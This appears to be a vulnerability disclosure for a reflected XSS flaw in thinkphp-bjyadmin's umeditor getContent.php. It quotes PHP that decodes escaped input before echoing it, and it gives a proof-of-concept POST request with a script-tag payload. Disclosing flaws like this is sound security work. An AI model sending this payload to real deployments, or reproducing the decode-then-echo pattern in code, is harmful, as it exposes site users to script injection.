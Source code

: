 A xss vulnerability in bjyadmin-latest(commit a560fd5).

The path of the vulnerability.

In file https://github.com/baijunyao/thinkphp-bjyadmin/blob/master/Public/statics/umeditor1_2_3/php/getContent.php

```php
...
$content =  htmlspecialchars($_POST['myEditor']);		// Line 9
...
echo  "<div class='content'>".htmlspecialchars_decode($content)."</div>"; // Line 14
```


We see that there is no check between the input  $_POST["myEditor"] and the output(Line 9)

Thus the XSS will happen at `echo  "<div class='content'>".htmlspecialchars_decode($content)."</div>";`

Poc:

POST /Public/statics/umeditor1_2_3/php/getContent.php 

`myEditor=</div><script>alert('xss')</script>`

Manual verification:

![alt text](1.png)

![alt text](2.png)


The developers were informed of the report by sending an email on 09/07/2024.